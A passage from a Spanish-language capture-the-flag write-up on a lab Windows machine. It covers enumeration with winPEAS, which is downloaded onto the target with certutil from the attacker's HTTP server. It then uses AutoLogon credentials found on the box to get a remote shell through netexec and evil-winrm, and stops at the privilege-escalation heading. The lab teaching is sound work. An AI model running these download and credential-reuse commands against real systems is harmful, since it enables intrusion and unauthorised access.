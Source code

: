 Comrpobamos que ganamos acceso al equipo de ANALYSIS.

<figure><img src="../../../../../.gitbook/assets/1658_vmware_6APrlpHagy.png" alt=""><figcaption></figcaption></figure>

## Initial Access

### System enumeration with winPEAS

Probaremos de enumerar el sistema en busca de vías potenciales para escalar nuestro privilegio, ya que actualmente somo suna cuenta de servicio (svc).

Nos copiaremos el winPEASx64.exe en nuestro directorio actual de trabajo y a través del servidor HTTP Python lo compartiremos para que en el equipo de Windows lo descarguemos a través de **certutil.exe**.

{% code overflow="wrap" %}
```bash
python3 -m http.server 80

certutil.exe -f -urlcache -split http://10.10.14.14/winPEASx64.exe winPEAS.exe
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

Ejecutando el **winPEAS** comprobamos que ha encontrado las credenciales almacenadas en el AutoLogon del usuario "jdoe".

<figure><img src="../../../../../.gitbook/assets/1660_vmware_EJ9bIghQeF.png" alt=""><figcaption></figcaption></figure>

### ShellOver with Evil-WinRM

Intentaremos de validar las credenciales para autenticarnos en el SMB y comprobar que podemos acceder por WinRM, ya que en principio según habíamos enumerado anteriormente, el usuario "jdoe" formaba parte del grupo de "Remote Management Users".

```bash
netexec smb 10.10.11.250 -u jdoe -p '7y4Z4^*y9Zzj'

netexec winrm 10.10.11.250 -u jdoe -p '7y4Z4^*y9Zzj'
```

<figure><img src="../../../../../.gitbook/assets/1661_vmware_f3lAVSYvmY.png" alt=""><figcaption></figcaption></figure>

Probaremos de acceder al WinRM a travésd e **evil-winrm** y las credenciales de _jdoe_. Comproobamos la flag de **user.txt**

```bash
evil-winrm -i 10.10.11.250 -u jdoe -p '7y4Z4^*y9Zzj'
```

<figure><img src="../../../../../.gitbook/assets/1673_vmware_BrBhKixHWZ.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation
